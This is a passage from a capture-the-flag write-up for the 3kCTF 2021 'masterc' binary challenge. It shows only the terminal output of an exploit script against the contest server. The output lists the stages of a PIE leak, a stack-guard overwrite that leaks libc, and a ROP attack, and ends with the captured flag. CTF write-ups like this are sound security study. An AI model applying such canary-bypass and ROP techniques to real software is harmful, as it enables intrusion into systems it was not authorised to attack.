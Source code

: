 Running the above exploit yields us the flag.

```
vagrant in pwnbox in 3kctf-2021/masterc
❯ python xpl.py REMOTE
[+] Opening connection to masterc.2021.3k.ctf.to on port 9999: Done
[+] Stage 1: Leak PIE address: Done
[+] pie @ 0x557ccf106000
[+] Stage 2: Overwrite Stack Guard and leak libc base: Done
[*] Loaded 14 cached gadgets for './bin/masterc'
[+] libc @ 0x7f30cf1a9000
[+] Stage 3: Pwn: Done
[*] Loaded 201 cached gadgets for './bin/libc-2.31.so'
[+] Flag: 3k{WH47_Pr3V3N7_Y0U_Fr0M_r0PP1N6_1F_Y0U_C4N_0V3rWr173_7H3_M4573r_C4N4rY_17531F}
```

Flag: `3k{WH47_Pr3V3N7_Y0U_Fr0M_r0PP1N6_1F_Y0U_C4N_0V3rWr173_7H3_M4573r_C4N4rY_17531F}`

